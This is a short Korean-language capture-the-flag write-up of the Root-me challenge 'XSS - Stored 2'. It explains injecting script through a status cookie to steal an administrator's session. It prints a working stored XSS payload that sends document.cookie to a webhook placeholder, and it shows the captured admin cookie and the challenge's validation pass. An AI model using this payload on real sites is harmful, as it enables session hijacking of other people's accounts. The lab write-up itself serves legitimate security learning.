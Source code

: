 ```yaml
---
title : XSS - Stored 2
categories : [Wargame, Root-me]
tags : [XSS]
---
```


# XSS - Stored 2
```
Author
g0uZ,  4 March 2012

Statement
Steal the administrator session’s cookie and go in the admin section.
```
Stored1 과 동일하게 진행. 하지만 javascript를 htmlentities 함수를 이용한 것인지 실행시키지 못하도록 해놓았음.  
그래서 title, section 쿼리, cookie 등 다 시도해본 결과 쿠키 쪽에서 가능했음.  
message를 보내면 status를 표시해주는데 status 쿠키 값을 다음과 같이 변경.  
```
Status : <i class="invite">invite</i> 이고 자바스크립트를 실행시키려면 "으로 닫아 줘야 됨. 따라서 아래와 같이 변경해줘야 함.

"><script>location.href="webhook_url?cookie="%2B document.cookie</script>
```
한 5분 후에 확인해보면 이렇게 나옴.  
```
webhook_url?cookie=status%3Dinvite%3B%20ADMIN_COOKIE%3DSY2USDIH78TF3DFU78546TE7F

status=invite; ADMIN_COOKIE=SY2USDIH78TF3DFU78546TE7F
```
따라서 문제로 돌아가서 쿠키 값을 설정시켜주고 admin 섹션으로 가면 flag를 얻을 수 있음.  
```
You can validate challenge with this pass : E5HKEGyCXQVsYaehaqeJs0AfV
```

